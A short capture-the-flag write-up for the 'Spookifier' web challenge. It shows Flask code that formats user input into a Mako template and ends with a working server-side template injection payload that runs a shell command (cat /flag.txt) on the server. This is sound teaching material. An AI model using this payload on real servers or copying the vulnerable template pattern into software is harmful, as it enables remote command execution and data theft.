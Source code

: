 # [Web] Spookifier

This web application uses a template to change the font of an input text. As a template is used, this calls for [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).
We do have access to the code and the template engine used is Mako, via `flask_mako`.

```python
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
```

Especially the `spookify` function calls a `generate_render` function:

```python
def generate_render(converted_fonts):
        result = '''
                <tr>
                        <td>{0}</td>
        </tr>
                <tr>
                <td>{1}</td>
        </tr>
                <tr>
                <td>{2}</td>
        </tr>
                <tr>
                <td>{3}</td>
        </tr>
        '''.format(*converted_fonts)
        return Template(result).render()
```

We can abuse it using one of the payloads found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako)

```python
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```
